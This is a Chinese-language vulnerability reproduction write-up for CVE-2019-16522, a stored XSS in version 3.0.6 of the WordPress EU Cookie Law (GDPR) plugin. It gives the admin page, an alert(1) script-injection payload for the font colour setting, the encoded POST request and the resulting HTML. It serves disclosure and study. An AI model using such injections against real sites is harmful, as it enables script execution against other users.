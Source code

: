 # （CVE-2019-16522）WordPress Plugin - EU Cookie Law (GDPR) 储存型xss

> 原文：[https://www.zhihuifly.com/t/topic/3252](https://www.zhihuifly.com/t/topic/3252)

# （CVE-2019-16522）WordPress Plugin - EU Cookie Law (GDPR) 储存型xss

## 一、漏洞简介

WordPress的3.0.6版eu-cookie-law插件（又称为EU Cookie法（GDPR））容易受到存储XSS的影响，原因是管理区域中几个配置选项的编码不正确以及显示的Cookie同意消息。这会影响“字体颜色”，“背景颜色”和“禁用Cookie”文本。具有高特权的攻击者可以攻击其他用户。

## 二、漏洞影响

wordpress <= 3.0.6，可能更高

## 三、复现过程

```
/wp-admin/options-general.php?page=peadig_eucookie 
```

管理员可以在配置区域为插件设置多个选项。在插入HTML页面之前，大多数都可以正确转义。但是，可以利用三个设置值来插入任意JavaScript和HTML。那些是：

字体颜色（ Font Color）
背景颜色 （Background Color）
“禁用Cookie”文本 （"Disable Cookie" Text）
“ Fontcolor”的值将插入到显示Cookie同意消息的每个页面上。默认情况下，其他两个仅可在管理区域中利用。

以“字体颜色”为例

将字体颜色的值设置为

```
#FFFFFF"><script>alert(1)</script> 
```

便可以突破HTML属性并插入script包含JavaScript 的标签

post包：

```
POST /wp-admin/options.php HTTP / 1.1 
[ ... ] `[ … ] peadig_eucookie％5 Bfontcolor％5 D = ％23FFFFFF％22％3E％3Cscript％3Ealert％281％29％3C / script％3E […]` 
```

这时候我们看一下返回值。

在管理区域中，生成的HTML页面如下所示

```
<input id="fontcolor" type="text" name="peadig_eucookie[fontcolor]" value="#FFFFFF">
<script>alert(1)</script>
" class="color-field" data-default-color="#ffffff"/> 
```

在带有cookie消息的页面上，有效负载将被多次插入。生成的HTML如下所示

```
<!-- Eu cookie Law 3.0.6 -->
<div class="pea_cook_wrapper pea_cook_bottomcenter" style="color:#FFFFFF">
    <script>alert(1)</script>
    ;background:rgb(0,0,0);background: rgba(0,0,0,0.85);"> 
```